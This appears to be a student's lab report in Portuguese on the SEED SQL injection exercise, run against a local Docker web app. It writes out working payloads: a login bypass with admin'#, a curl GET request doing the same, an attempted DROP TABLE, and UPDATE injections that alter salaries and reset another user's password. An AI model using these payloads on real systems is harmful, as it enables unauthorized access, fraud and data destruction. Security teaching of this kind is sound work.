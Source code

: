 # SQL Injection Attack

## Setup

Começámos por correr os seguintes comandos no terminal:

```bash
sudo nano etc/hosts     # para colocar '10.9.0.5 www.seed-server.com'

$ dcbuild               
$ dcup                  

$ dockps
$ docksh ##             # Abrir uma shell do MySQL container
$ mysql -u root -pdees  # Executar o MySQL com utilizador root
$ use sqllab_users;     # Abrir a base de dados
```

## Tasks

### Task 1: 

A tarefa consiste em selecionar os dados do utilizador "Alice":

```sql
SELECT * FROM credentials WHERE Name = "Alice";
```

O resultado:
![Alt text](./images/image8-1.png)

###  Task 2: 

#### Task 2.1 

Acedemos ao site "www.seed-server.com" disponibilizado pelo container Docker e executámos o seguinte código:

```sql
SELECT id, name, eid, salary, birth, ssn, address, email, nickname, Password
FROM credential
WHERE name='admin'# and Password=’$hashed_pwd’
```

Ou podemos fazer isto na página:
![Alt text](./images/image8-8.png)

Obtívemos assim os dados do administrador:

![Alt text](./images/image8-2.png)

#### Task 2.2

O ataque será agora feito através de um pedido GET:

```bash
curl "http://www.seed-server.com/unsafe_home.php?username=admin%27%23&Password="
```

Obtendo-se assim a página HTML com os dados pessoais dos users:

![Alt text](./images/image8-3.png)

#### Task 2.3

Adicionámos agora código de forma a causar um side-effect no servidor:

```sql
admin'; DROP TABLE IF EXISTS credentials; #
```
A operação não chegou a ser executada devido a um erro:

![Alt text](./images/image8-4.png)

Segundo o [manual](https://www.php.net/manual/en/mysqli.quickstart.multiple-statement.php), a extensão de MySQL utilizada pelo servidor contém uma proteção que impede a execução de múltiplas queries, não sendo possível realizar o ataque.

### Task 3: 

#### Task 3.1

Depois de entrar com uma conta do sistema, podemos editar os dados pessoais.
Utilizámos o campo "SSN" para o ataque, da seguinte forma:

```sql
UPDATE credential SET
nickname='$input_nickname',
email='$input_email',
address='$input_address',
Password='$hashed_pwd',
SSN='10211002',Salary='9999999' WHERE ID=$id;
```

Conseguímos assim alterar o salário para o valor escolhido:

![Alt text](./images/image8-5.png)

#### Task 3.2
Para alterar o salário de outra pessoa usámos um código muito semelhante ao anterior:

```sql
UPDATE credential SET
nickname='$input_nickname',
email='$input_email',
address='$input_address',
Password='$hashed_pwd',
SSN='10213352',Salary='-9999999' WHERE Name='Boby'# WHERE ID=$id;
```

![Alt text](./images/image8-6.png)

#### Task 3.3

Para alterar a password de outra pessoa, temos que fazer o mesmo que a task anterior, mas desta vez temos que encriptar a password através da criptografia SHA1.
Para a password `ihackedyou`, o hash é `8b386dbd9fd6db15f6f943aa5e1705835b5039a2`.

```sql
UPDATE credential SET
nickname='$input_nickname',
email='$input_email',
address='$input_address',
Password='$hashed_pwd',
SSN='10213352', password='8b386dbd9fd6db15f6f943aa5e1705835b5039a2' WHERE name='Boby'# WHERE ID=$id;
```

Conseguímos assim entrar na conta:

![Alt text](./images/image8-7.png)